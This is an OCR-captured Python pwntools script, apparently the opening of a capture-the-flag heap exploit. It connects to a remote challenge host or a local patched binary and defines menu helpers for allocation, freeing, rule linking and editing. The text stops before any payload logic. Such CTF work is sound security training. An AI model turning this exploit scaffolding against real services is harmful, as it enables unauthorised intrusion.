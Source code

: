 ```python
#!/usr/bin/python3

from pwn import *
from time import sleep
context.arch = 'amd64'

def debug():
        if local<2:
                gdb.attach(p,'''
                        x/40gx &rules
                        b* copy_rule+275
                        ''')
###############   files setup   ###############
local=len(sys.argv)
exe=ELF("./main_patched")
libc=ELF("./libc.so.6")
nc="nc 34.165.180.62 5001"
port=int(nc.split(" ")[2])
host=nc.split(" ")[1]

############### remote or local ###############
if local>1:
        p=remote(host,port)
else:
        p=process([exe.path])

############### helper functions ##############
def send():
        pass

def malloc(index,size):   # between 0x500 and 0x800
        p.sendline("1")
        p.sendline(str(index))
        p.sendline(str(size))

def free(index):
        p.sendline("3")
        p.sendline(str(index))

def setin(index,payload1:bytes,payload2:bytes):
        p.sendline("7")
        p.sendline(str(index).encode())
        p.send(payload1)
        sleep(0.5)
        p.send(payload2)
        sleep(0.5)

def setout(index,payload1:bytes,payload2:bytes):
        p.sendline("8")
        p.sendline(str(index).encode())
        p.send(payload1)
        sleep(0.5)
        p.send(payload2)
        sleep(0.5)

def link(rule1,rule2):
        p.sendline("6")
        p.sendline(str(rule1).encode())
        p.sendline(str(rule2).encode())

def edit(index,payload,newline=False):
        p.sendline("2")
        p.sendline(str(index).encode())
```